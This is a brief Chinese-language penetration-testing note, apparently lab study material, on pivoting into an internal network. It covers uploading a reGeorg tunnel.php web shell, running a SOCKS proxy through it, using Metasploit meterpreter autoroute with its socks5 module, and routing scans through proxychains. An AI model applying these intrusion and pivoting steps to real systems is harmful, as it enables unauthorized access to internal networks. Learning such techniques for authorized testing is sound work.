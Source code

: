 ##### 步骤

1. 上传tunnel.php文件

    ‍
2. 渗透主机进行配置

    * 执行cmd，监听6666端口 `python reGeorgSocksProxy.py -u http://ip/tunnel.nosoket.php -p 6666`​
    * 打开proxifier代理工具设置代理：`profile-proxy servers:127.0.0.1:6666 socks5代理`​
    * 配置代理规则 `profile-proxification rules`​
3. 通过代理远程连接

‍

### 边界代理基础实验

获取shell，扫描到还有另一个网卡，及内网主机

上传msf马到目标主机获取meterpreter

添加路由

```bash
meterpreter> run port/multi/manage/autoroute
```

使用msf自带的socks代理模块

```bash
background
use auxiliary/server/socks5
设置参数运行
```

修该proxychains的配置文件为msf中设置的端口

```bash
vi /etc/proxychains
socks5 攻击机ip 端口
```

进而对内网进行渗透

### http代理

shell连接-发现内网

上传tunnel.php，进而代理转发

修改proxychains配置文件

扫描内网存活主机端口
